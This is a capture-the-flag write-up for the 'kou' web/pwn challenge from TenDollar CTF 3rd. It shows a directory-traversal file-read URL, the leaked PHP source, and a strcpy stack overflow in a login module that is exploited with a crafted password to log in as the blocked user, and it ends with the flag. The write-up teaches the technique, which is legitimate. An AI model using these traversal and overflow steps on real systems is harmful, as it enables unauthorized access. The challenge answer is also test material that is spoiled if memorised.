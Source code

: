 ```yaml
---
layout: post
title: "TenDollar CTF - kou writeup"
description: "My Problem 'kou' writeup at TenDollar CTF 3rd."
keywords: "my_prob, web, pwn, lfi, overflow"
---
```


## Information

Category : Web, Pwn

Solver : 7

Tag : LFI, Overflow

## Description

Author: @shpik

Eagle-Jump is black company?

Server Info: http://web2.tendollar.kr:10101/

## Exploit

It have 4 menu in this site. (੭ ᐕ)੭*⁾⁾

- Home
- Article
- Login
- Join

This site handles the page through the p parameter.

`http://web2.tendollar.kr:10101/?p=home`

p parameter is not allow wrapper and directory traversal.

There is a Secret Data in the Article menu.

If you read this, you will not get the contents with the message "You're not admin."

When you request article you can see that it is requested as f parameter.

`http://web2.tendollar.kr:10101/?p=view&f=First%20Article`

f parameter is allow directory traversal, but wrapper is not allowed.

Leak index.php.

`http://web2.tendollar.kr:10101/?p=view&f=../../var/www/html/index.php`

```php
<!-- index.php -->
<!DOCTYPE html>
<html>
<head>
	<title>Yagami Kou's Homepage</title>
	<link rel=stylesheet href="index.css">
</head>
<body>
	<?php
		@include_once('menu.php');
	?>
	<br>
	<?php
		$pageList = array(
			'home',
			'login',
			'loginchk',
			'logout',
			'view',
			'board',
			'join'
		);
		if(in_array($_GET['p'], $pageList)) {
		  @include_once($_GET['p'].'.php');
		} else {
		  @include_once('home.php');
		}		
	?>
</body>
</html>
```

Let's take a look at loginchk which seems to be important the pageList.

```php
<!-- loginchk.php -->
<?php
	$id = $_POST['id'];
	$pw = $_POST['pw'];
	if($id!='' && $pw!=''){
		if(preg_match('/kou/i',$id)){
			die('<script>alert("Don\'t login at kou.");history.back();</script>');
		}
		if(login($id,$pw)){
			$_SESSION['is_login'] = 1;
			$_SESSION['admin'] = 1;
			echo '<script>alert("Login Success.");location.href="?p=home";</script>';
		}else{
			echo '<script>alert("Login Fail.");history.back();</script>';
		}
	}else{
		echo '<script>alert("Login Fail.");history.back();</script>';
	}
?>
```

It is not allow login as "kou" in loginchk.php.

But, **login** function that verify id and password is not built-ins function.

Maybe, It is called by another modules.

```php
<!-- view.php -->
<?php
	$f = $_GET['f'];
	if(!is_array($f) && !is_null($f) && $f!=''){
//		$f = str_replace('../','', $f);
		if($f[strlen($f)-1]=='/'){
			$f[strlen($f)-1]=='\0';
		}
		if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==1){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}else if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==0){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre>You're not admin.</pre>
	</div>
<?php
		}else{
?>
	<div class="description">
		<p style="font-size: 20px;"><?=$f;?></p>
		<br><br>
		<?php
		if(preg_match('/kou\.so/i',$f)){
			echo 'Okay Here<br><div>'.file_get_contents('/var/www/modules/kou.so').'</div>';
		}
		?>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}

	}else{
		echo '<script>alert("No found.");history.back();</script>';
	}
?>
```

Next, see the view.php.

It seems that f parameter is being distributed to the page through **loadFile** function.

but, It is not built-ins function, too.

If you request kou.so with f parameter, you will see that you are giving the kou.so file.

Open it !

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/assets/images/kou1.png)

**loadFile** function just open file using fopen function.

Next, I see the **login** function.

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/assets/images/kou2.png)

It is verfying to input value(id, pw) using loginchk function.

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/assets/images/kou3.png)

**loginchk** function is compare id and pw to "kou" and "1e0c6abede7ff7184c3cefe606f9760a".

but, id can't contain "kou" because of loginchk.php.

Vulnerability is **login function**.

```c
strcpy(_id, id);
v3 = strcpy(_pw, pw);
```

It copy input value to _id and _pw using strcpy.

```c
char _pw[32]; // [rsp+20h] [rbp-68h]

char _id[33]; // [rsp+40h] [rbp-48h]
```

If you look at stacks of _id and _pw, you can see _pw followed by _id.

And copy id, then copy pw, but strcpy don't check length.

It is occur **<u>stack overflow</u>**.

If pw is inputed by "1e0c6abede7ff7184c3cefe606f9760akou", then _id is "kou" and _pw is "1e0c6abede7ff7184c3cefe606f9760a".

So, you can login as kou.

Now when you log in with id = a, pw = 1e0c6abede7ff7184c3cefe606f9760akou on the login page, you can login as kou.

After login as kou, you can read Secret Data and get Flag!

```
Secret Data

退勤する前にFLAGを残していきます。
TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}
```



**FLAG :** TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}

